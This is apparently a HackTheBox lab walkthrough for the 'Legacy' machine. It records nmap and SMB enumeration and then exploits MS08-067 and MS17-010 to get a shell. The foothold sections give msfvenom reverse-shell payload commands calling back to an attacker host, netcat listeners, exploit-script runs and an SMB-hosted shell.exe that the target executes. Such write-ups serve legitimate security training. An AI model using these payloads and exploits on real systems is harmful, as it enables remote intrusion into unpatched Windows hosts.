



# HackTheBox Legacy

> Author: Hades

> [*Scripting here*](https://github.com/leecybersec/scripting)


## Information Gathering

### Openning Services

```
┌──(Hades㉿10.10.14.5)-[0.5:14.1]~/scripting
└─$ sudo ./enum/all.sh 10.10.10.4
[sudo] password for kali: 

### Port Scanning ############################
nmap -sS -p- --min-rate 1000 10.10.10.4 | grep ^[0-9] | cut -d '/' -f1 | tr '\n' ',' | sed s/,$//

[+] Openning ports: 139,445,3389

### Services Enumeration ############################
nmap -sC -sV -Pn 10.10.10.4 -p139,445,3389
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-31 23:38 EDT
Nmap scan report for 10.10.10.4
Host is up (0.25s latency).

PORT     STATE  SERVICE       VERSION
139/tcp  open   netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open   microsoft-ds  Windows XP microsoft-ds
3389/tcp closed ms-wbt-server
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_clock-skew: mean: -4h16m00s, deviation: 2h07m16s, median: -5h46m00s
|_nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:c4:3d (VMware)
| smb-os-discovery: 
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY\x00
|   Workgroup: HTB\x00
|_  System time: 2021-04-01T03:52:25+03:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 60.23 seconds
```

### Server Message Block

Enum with `smbmap` and `smbclient`, but cannot see value info.

```
### SMB Enumeration (445) ############################
smbmap -H 10.10.10.4                                                                                                                                                        
[+] IP: 10.10.10.4:445  Name: 10.10.10.4                                        
smbclient -L 10.10.10.4         
protocol negotiation failed: NT_STATUS_IO_TIMEOUT
```

Using `nmap` to scan smb vulnerability:

```
┌──(Hades㉿10.10.14.5)-[0.6:18.5]~/scripting
└─$ nmap -p 139,445 --script smb-vul* 10.10.10.4 -Pn
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-31 23:43 EDT
Nmap scan report for 10.10.10.4
Host is up (0.25s latency).

PORT    STATE SERVICE
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Host script results:
| smb-vuln-ms08-067: 
|   VULNERABLE:
|   Microsoft Windows system vulnerable to remote code execution (MS08-067)
|     State: LIKELY VULNERABLE
|     IDs:  CVE:CVE-2008-4250
|           The Server service in Microsoft Windows 2000 SP4, XP SP2 and SP3, Server 2003 SP1 and SP2,
|           Vista Gold and SP1, Server 2008, and 7 Pre-Beta allows remote attackers to execute arbitrary
|           code via a crafted RPC request that triggers the overflow during path canonicalization.
|           
|     Disclosure date: 2008-10-23
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-4250
|_      https://technet.microsoft.com/en-us/library/security/ms08-067.aspx
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: ERROR: Script execution failed (use -d to debug)
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143

Nmap done: 1 IP address (1 host up) scanned in 36.31 seconds
```

## Foothold

### smb-vuln-ms08-067

[*Poc code here*](https://github.com/leecybersec/walkthrough/tree/master/hackthebox/legacy)

<a href='https://raw.githubusercontent.com/jivoi/pentest/master/exploit_win/ms08-067.py' target="blank">Microsoft Windows Server 2000/2003 - Code Execution (MS08-067)</a>

In the poc, I neet to `REPLACE THIS SHELLCODE with shellcode generated for your use`.

The bad chars `"\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40"`

``` bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.4 LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows
```

Create a listener in Kali machine.

``` bash
sudo nc -nvlp 443
```
Convert poc to python3

```
2to3 ms08-067.py
```

Get reverse shell

```bash
python3 ms08-067.py 10.10.10.4 6 445 > /dev/null
```



Create smb server in Kali Machine to check privilege.

```
sudo smbserver.py public /usr/share/windows-resources/binaries/ > /dev/null
```

```
\\10.10.14.5\public\whoami.exe
```

### smb-vuln-ms17-010

[*Poc code here*](https://github.com/leecybersec/walkthrough/tree/master/hackthebox/legacy)

<a href='https://github.com/helviojunior/MS17-010' target="blank">Microsoft Security Bulletin MS17-010 (EternalBlue/MS17-010)</a>

Generate reverse shell file `shell.exe` in the same payload's folder using `msfvenom`.

``` bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.4 LPORT=443 EXITFUNC=thread -f exe -a x86 --platform windows -o shell.exe
```

Create a listener in Kali machine.

``` bash
sudo nc -nvlp 443
```

Get reverse shell

```bash
python send_and_execute.py 10.10.10.4 shell.exe > /dev/null
```



Run cmd in poc file

[*Poc code here*](https://github.com/leecybersec/walkthrough/tree/master/hackthebox/legacy)

Get reverse shell

```
sudo smbserver.py public /home/kali/walkthrough/hackthebox/legacy > /dev/null
```

```
python cmd.py 10.10.10.4 '\\10.10.14.5\public\shell.exe' > /dev/null
```



## Reference

[worawit/MS17-010](https://github.com/worawit/MS17-010)

<a href='https://0xdf.gitlab.io/2019/02/21/htb-legacy.html' target="blank">HTB: Legacy of 0xdf hacks stuff</a>

<a href='https://pycryptodome.readthedocs.io/en/latest/src/installation.html' target="blank">Install PyCrypto library</a>